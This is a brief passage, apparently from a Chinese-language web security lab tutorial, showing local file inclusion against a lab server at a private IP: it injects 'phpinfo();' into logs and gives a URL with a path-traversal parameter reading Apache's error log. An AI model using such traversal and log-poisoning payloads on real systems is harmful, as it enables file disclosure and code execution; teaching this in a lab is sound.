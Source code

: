 ![image-20230413154538845](assets/29hR4t81YnWil7I.png)

通过对本地的日志文件进行包含读取，输入123=phpinfo();。

```
URL:http://192.168.10.150/1.php/?name=../Apache/logs/error.log
```

![image-20230413154546472](assets/SlcWKB5YdR8puTo.png)

